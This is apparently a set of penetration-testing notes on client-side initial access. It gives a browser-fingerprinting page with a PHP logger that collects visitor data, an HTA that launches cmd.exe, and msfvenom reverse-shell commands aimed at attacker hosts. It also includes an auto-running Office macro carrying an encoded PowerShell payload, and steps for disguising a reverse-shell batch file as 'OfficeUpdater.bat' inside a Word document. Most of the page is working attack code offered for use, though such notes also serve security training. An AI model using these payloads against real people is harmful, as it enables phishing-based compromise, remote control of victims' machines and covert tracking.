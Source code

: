 # Browser Fingerprinting
## Tool: Fingerprintjs2 JavaScript library
[link here](https://github.com/LukasDrgon/fingerprintjs2/fork)
### sample: prints out the user-agent and platform components
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			document.write(details);
		});
	</script>
</html>
```

## parse user agent
https://developers.whatismybrowser.com/useragents/parse/#parse-useragent

## fingerprinting with AJAX: 
### Note:
*In this example,* the POST request is issued against the same server where the malicious web page is stored, therefore the URL used in the `xmlhttp.open` method does not specify an IP address.

A comment is added for when targeting a remote server
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			var xmlhttp = new XMLHttpRequest();
			xmlhttp.open("POST", "/fp/js.php");
			//example with a remote url
			//xmlhttp.open("POST", "http://20.20.20.129/fp/js.php");
			xmlhttp.setRequestHeader("Content-Type", "application/txt");
			xmlhttp.send(details);
		});
	</script>
</html>
```

## js.php for receiving the ajax: note: we have to `chown www-data:www-data /var/www/html/fp` directory to allow it to write the fingerprint data to a local txt file
```php
<?php
	$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
	$data .= file_get_contents('php://input');
	$data .= "---------------------------------\n\n";
	file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```

## sample output: `cat fingerprint.txt`
```
Client IP Address: 127.0.0.1
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------

Client IP Address: 20.20.20.132
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------
```

---

# HTML Applications (HTA)

### sample hta
```html
<html>
	<head>
		<script>
			var c= 'cmd.exe'
			new ActiveXObject('WScript.Shell').Run(c);
		</script>
	<head>
	<body>
		<script>
			//closes the additional windows behind our command prompt
			self.close();
		</script>
	</body>
</html>
```

- sandbox protection of Internet Explorer, also called Protected Mode is enabled by default
- The victim can select Allow to permit the action,
	which will execute the **JavaScript code** and launch cmd.exe

### Generating HTA with `msfvenom`
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f hta-psh -o evil.hta
```

### CVE-2017-0199

### [Demiguise Tool](https://github.com/nccgroup/demiguise)

---

# Office Macros
### macro layout
```vbscript
Sub AutoOpen()
    MyMacro
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub MyMacro()
    Dim Str As String

    <PAYLOAD>

    CreateObject("Wscript.Shell").Run Str
End Sub
```

### Payload is the same as the HTA attack
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f hta-psh
```
In VBA, for strings, there is a character limit of 255 characters.

However, this restriction does not apply to strings stored in variables, so we can split the command into multiple lines and concatenate them.

it should be like below: 

```vbscript
Str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGkAcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8AdwBzAF"
Str = Str + "AAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9AE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAUwB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQBtAGUAPQAkA"
```

the powershell script in the **MurderShell project** can take care of the splitting.

---

# Object Linking and Embedding (Awesome)

## Step #1: create a malicous bat file and give it a benign name like `OfficeUpdater.bat`
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=20.20.20.129 LPORT=9000 -f psh-cmd -o OfficeUpdater.bat
```
## Step #2: create an office word document. click `insert` --> `object`
![CSA-OLE-1](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-1.jpg)

## Step #3: After selecting the `create from file` tab, browse to the location of the `.bat` file we generated. Also use a benign `icon` and `caption` to lower suspicion.
![CSA-OLE-2](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-2.jpg)

![CSA-OLE-3](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-3.jpg)

## Step #4: When the user clicks on the object, a pop-up will be there asking if the user wants to run it.
![CSA-OLE-4](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-4.jpg)

## You will get back a shell if `'Run'` is clicked
![CSA-OLE-5](/Assets/CSA-Object-Linking-and-Embedding/CSA-OLE-5.jpg)

## Note: the `.bat` file and the icon will remain within the document and will be portable with it.
